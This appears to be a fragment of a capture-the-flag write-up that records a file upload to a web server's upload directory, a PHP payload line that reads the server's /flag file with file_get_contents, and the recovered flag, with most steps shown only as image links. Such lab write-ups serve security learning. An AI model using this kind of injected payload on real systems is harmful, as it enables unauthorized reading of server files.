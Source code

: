 ![image-20250917204841160](assets/image-20250917204841160.png)

var/www/html/upload/70cdaf85c0ff93f4c4c029e0adaf61b7/2222.png succesfully uploaded!

![image-20250917205002504](assets/image-20250917205002504.png)

![image-20250917205304155](assets/image-20250917205304155.png)

```
x=var_dump(file_get_contents("/flag"));
```

flag{990e50d7-b37e-4e0b-89a1-c702c48c928f}